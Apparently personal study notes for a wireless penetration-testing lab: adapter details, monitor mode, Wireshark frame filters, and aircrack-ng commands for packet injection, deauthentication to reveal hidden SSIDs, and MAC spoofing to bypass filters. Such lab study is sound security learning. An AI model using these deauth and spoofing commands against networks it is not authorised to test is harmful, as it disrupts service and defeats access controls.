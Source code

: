# Wireless

- [Wireless](#wireless)
  - [Wireless Lab Setup](#wireless-lab-setup)
    - [wireless adapter](#wireless-adapter)
    - [Access point](#access-point)
    - [Configuring your wireless card](#configuring-your-wireless-card)
    - [monitor mode interface](#monitor-mode-interface)
  - [Wireshark](#wireshark)
    - [Management frames](#management-frames)
    - [Control frames](#control-frames)
    - [Data frames](#data-frames)
  - [Sniffing data packets](#sniffing-data-packets)
  - [Packet injection](#packet-injection)
  - [Uncovering hidden SSIDs](#uncovering-hidden-ssids)
  - [Beating MAC filters](#beating-mac-filters)
  - [bypassing Shared Authentication](#bypassing-shared-authentication)

## Wireless Lab Setup

### wireless adapter

- Laptop Ethernet:
  - Description . . . . . . . . . . . : Intel(R) Ethernet Connection I219-LM
  - Physical Address. . . . . . . . . : A0-8C-FD-A9-4D-BD

- Laptop Wi-Fi:
  - Description . . . . . . . . . . . : Intel(R) Dual Band Wireless-AC 8260
  - Physical Address. . . . . . . . . : 44-85-00-B3-1D-52

- Laptop Bluetooth:
  - Description . . . . . . . . . . . : Bluetooth Device (Personal Area Network)
  - Physical Address. . . . . . . . . : 44-85-00-B3-1D-56

- Alfa Grey:
  - 802.11g
  - Model: AWUS036H
  - Description . . . . . . . . . . . : Realtek RTL8187 Wireless 802.11b/g 54Mbps USB 2.0 Network Adapter
  - Physical Address. . . . . . . . . : 00-C0-CA-42-2F-04

- Alfa Black:
  - Model: AC1200 - 802.11ac
  - Model: AWUS036ACH
  - Description . . . . . . . . . . . : Realtek 8812AU Wireless LAN 802.11ac USB NIC
  - Physical Address. . . . . . . . . : 00-C0-CA-AA-57-E3


### Access point

> TP-LINK TL-WR841N Wireless router

- `route –n`

### Configuring your wireless card

- `iwconfig`

- `ifconfig wlan0`
  
- `iwlist wlan0 scanning` - scan available networks
- `iwconfig wlan0 essid "Wireless Lab"` - connect to "Wireless Lab network"

- `iwconfig wlan0` - to check the status.

- `ifconfig wlan0 192.168.0.2 netmask 255.255.255.0 up`
- `ifconfig wlan0`

- `arp –a`

- `iw reg set US` - set regulatory domain to US
- `iwconfig wlan1 txpower 27` - set transmitting power to 27 dBm

### monitor mode interface

- `dmesg` or `tail -f -n @ /var/log/messages` 

- `iwconfig`
- `ifconfig wlan1 up`

- `ifconfig wlan1`

- `airmon-ng` - show available wireles cards

- `airmon-ng start wlan1` - starts wlan1 in monitor mode

## Wireshark

### Management frames

- filter `wlan.fc.type == 0`

### Control frames

- filter `wlan.fc.type == 1`

### Data frames

- filter `wlan.fc.type == 2`

## Sniffing data packets

- find router channel 
  - `airodump-ng --bssid <mac> wlan1`

- lock card on same channel as router 
  - `iwconfig wlan1 channel <channel>`

- `iwconfig wlan1`

- wireshark filter `wlan.bssid == <mac>`

## Packet injection

- wireshark filter to monitor all non-Beacon packets
  - `(wlan.bssid == <mac>) && !(wlan.fc.type_subtype == 0x08)`

- `aireplay-ng -9 -e "Wireless Lab" -a <mac> wlan1`

- wireshark check packets

## Uncovering hidden SSIDs

- passive technique - waiting for a legitimate client to connect the access point

- send deauthentication packets
  - `aireplay-ng -0 5 -a <mac> --ignore-negative wlan1`

- wireshark filter to catch deauth packets
  - `wlan.fc.type_subtype == 0x0C`

- wireshark filter to monitor all non-Beacon packets
  - `(wlan.bssid == <mac>) && !(wlan.fc.type_subtype == 0x08)`

## Beating MAC filters

- `airodumpng -c 11 -a --bssid <mac> mon0`

- `ifconfig wlan0 down`

- `macchanger –m <mac> wlan0`
- `ifconfig wlan0 up`

## bypassing Shared Authentication

pagina 48

